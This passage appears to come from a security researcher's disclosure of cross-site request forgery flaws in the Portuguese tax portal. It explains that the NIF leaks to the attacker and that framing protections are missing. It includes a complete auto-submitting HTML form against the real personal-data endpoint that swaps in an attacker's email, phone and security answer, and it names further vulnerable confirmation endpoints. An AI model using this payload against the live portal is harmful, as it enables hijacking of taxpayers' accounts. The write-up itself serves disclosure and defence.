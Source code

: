 One issue with XSRF attacks is that you may not be able to fully identify which account you've successfully attacked. This is not the case here as the tax identification number (NIF) is delivered along with the account data change message.

{% include image.html path="finance-tax-portal-1/xsrf-email-message.png"
   alt="Email received by the attacker with the victim's full name and NIF." caption-no="6" caption="Email received by the attacker with the victim's full name and NIF."
%}

Some information that can be modified through the personal area:

* `Email`
* `Phone Number`
* `Security Question`

{% include image.html path="finance-tax-portal-1/personal-area.png"
   alt="Personal area page." caption-no="7" caption="Personal area page."
%}

To make matters worse, the page doesn't have the [X-Frame-Options (XFO)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) header or the equivalent CSP directive [frame-ancestors](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors), meaning the **victim would be completely oblivious to the attack**.

In order to change either of these, an attacker would only need to use a short HTML snippet like:

``` html
<html>
  <form name="exploit" action="https://www.portaldasfinancas.gov.pt/pt/alterarDadosPessoais.action" method="POST">
    <input name="novoNumero" value="true">
    <input name="novoEmail" value="true">
    <input name="pergunta" value="1">
    <input name="resposta" value="attacker">
    <input name="email" value="attacker@example.com">
    <input name="telefone" value="901234567">
    <input name="confirmarBtn" type="submit" value="Confirmar">
  </form>
  <script>
    document.exploit.submit();
  </script>
</html>
```

After requesting the changes, it would also be necessary to send one additional request to confirm the new email and another for the phone number. These endpoints are also vulnerable and could be exploited the same way:

`https://www.portaldasfinancas.gov.pt`
* `/pt/fiabilizacaoEmail.action`
* `/pt/fiabilizacaoTelefone.action`

A more sophisticated attacker would chain most of the vulnerabilities described, easily achieving near frictionless phishing attacks.

But no matter how little interaction is needed, the user always has a chance.

